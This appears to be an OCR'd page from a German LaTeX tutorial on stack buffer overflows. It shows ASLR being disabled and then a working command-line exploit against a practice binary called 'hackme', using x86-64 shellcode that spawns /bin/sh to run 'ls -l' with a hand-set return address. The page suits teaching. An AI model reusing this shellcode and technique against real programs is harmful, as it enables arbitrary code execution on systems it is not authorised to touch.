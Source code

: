 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[caption={ASLR disabled}, captionpos=t]
» cat /proc/sys/kernel/randomize_va_space     
0
» ./hackme hello                              
Anfang von buffer: 0x7fffffffdeb0
Inhalt von buffer: hello
» ./hackme hello
Anfang von buffer: 0x7fffffffdeb0
Inhalt von buffer: hello
\end{lstlisting}
Im ersten Beispiel ist ASLR eingeschaltet, d.h. randomize\_va\_space enthält den Wert 2. Jeder Aufruf von hackme führt zu einer gänzlich anderen Adresse, wobei sich die vorderen 12 Bit jeweils nicht verändern.
\newline
Im zweiten Beispiel ist ASLR augeschaltet. Hier werden bei jedem Aufruf die selben Adressen verwendet.

\subsubsection{Den Shellcode ausführen}
Nun wird es Zeit, die Theorie in die Praxis umzusetzen und erst einmal ohne Skript den Shellcode über hackme auszuführen. Dafür wird folgender Pyhton Befehl auf der Kommandozeile ausgeführt und danach durch Command Substitution, hackme als Argument übergeben.
\newline
\textbf{Aufgrund eines bisher nicht nachvollziehbaren Fehlers, wurde der Ansatz gewechselt und auf einen NOP Sled verzichtet. Stattdessen wird der benötigte Platz mit einer Folge von beliebigen Zeichen aufgefüllt, um die Rücksprungadresse überschreiben zu können}.
\newline

\begin{lstlisting}
./hackme "$(python -c 'print "\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69
\x6e\x2f\x73\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66\x68
\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x11\x5a\x52\x80\x72\x05\x41\x53
\x57\x54\x5e\x48\x31\xd2\xb0\x3b\x0f\x05\xe8\xea\xff\xff\xff\x6c\x73
\x20\x2d\x6c\x41AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\xdd\xff\xff\xff\x7f"')"
Anfang von buffer: 0x7fffffffdd50
Inhalt von buffer: H1�QH��/bin/shH�QT_H1�Qfh-cT[H1�Q�ZR�rASWT^H1Ұ;�����ls 
-lAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAP����
total 72
-rwxrwxr-x 1 tux tux   489 Jan  5 11:45 convert.py
-rwxrwxr-x 1 tux tux    90 Jan  5 10:48 ding.sh
-rwxrwxr-x 1 tux tux   848 Jan  5 10:20 exec
-rw-rw-r-- 1 tux tux   754 Jan  5 11:22 exec.asm
-rw-rw-r-- 1 tux tux    65 Jan  5 10:22 exec.bin
-rw-rw-r-- 1 tux tux   736 Jan  5 10:20 exec.o
...
\end{lstlisting}
\end{document}
